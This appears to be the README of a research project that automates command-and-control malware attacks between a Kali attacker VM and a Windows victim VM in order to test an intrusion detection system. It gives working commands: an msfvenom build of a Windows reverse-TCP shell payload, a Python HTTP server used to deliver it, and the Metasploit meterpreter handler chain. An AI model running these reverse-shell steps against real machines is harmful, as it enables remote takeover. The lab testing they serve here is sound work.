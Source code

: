 # C2abstraction
C2 abstraction layer that provides high level diverse malware attacks to test IDS. 

Important Notes: Updated 11-07-2023

The important pyton files are 'C2Abstraction' and 'Mouse Script'

Virtual Machines:

Attacker - Kali Linux (each IP is different => Must change line 64 in setup)
Victim - Another virtual machine (in this case using Windows)

Preliminary work:
    - Setting up Kali Linux (on VMWare, an alternative is on Oracle VM): https://www.youtube.com/watch?v=pwYH0NNWWzU
    - Setting up victim machine: https://www.youtube.com/watch?v=nvdnQX9UkMY&t=259s

METASPLOIT:
    How to create a payload?
        - If you are creating a payload for testing directly from terminal
          run command 'msfvenom -p windows/shell/reverse_tcp LHOST=192.168.110.129 LPORT=4444 -f exe > ~/Desktop/ShellCodes/payload.exe'
          NOTE: this command assumes that you have a folder called 'ShellCodes' (can be removed)

    How to deploy the payload? (Need to automate this step)
        - As of right now, you can create a server to host the payload by
          right clicking on the folder and choose 'open terminal here' then
          use the command 'python3 -m http.server'

        - How to access this sever on the victim machine?
            * Open a webserver and type in 'http://{ip of kali machine}:{port number}'
            * In this case it is 'http://192.168.239.128:8000 (8000 is the default port)

    How to run msfvenom?
        - run 'msfconsole' in command line
        - then type in 'use exploit/multi/handler'
        - then set payload as 'set payload windows/meterpreter/reverse_tcp'
        - set host using 'set lhost {attacker ip}'
        - set listening port using 'set lport {target_port}'
        - then type in 'exploit'
        NOTE: in the code this whole sequence is chained into one line on line 46: 'use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost {target_ip}; set lport {target_port}; exploit;


How to track if HTTP commands/connections are going through?
    -You can catch the logs of the HTTP connections in real time by
        * going to /etc
        * then go to /ssh
        * then use 'nano' command to edit the 'sshd_config' file
        * look for the line '#LogLevel INFO'
        * remove the # then replace INFO with 'VERBOSE'
        * now run 'sudo journalctl -f' in the command line to track the logs

How to run the payload on the victim machine?
    - Using SCP we can connect to


COVENANT:
NOTE: What is the difference between covenant and metasploit?
        - Covenant has a web GUI that requires a script to control the mouse to deploy the malware

How to download covenant/introduction to covenant: https://www.youtube.com/watch?v=BLMW0fougFM
How to use the interface: https://www.youtube.com/watch?v=iX_qsbbNk2w

Mouse Script:
    - This python file is used to automatically control your mouse to create a listener on the GUI
      and create the "grunt" (used for collecting information)




# Citation
    @Unpublished{HungVu_IDS_TESTING_C2,
      author = {Hung Anh Vu},
      title = {{Research Testing Environment}},
      url = {https://github.com/HungAnhVu/C2abstraction},
      version = {1.0.0},
      year = {2023}
    }
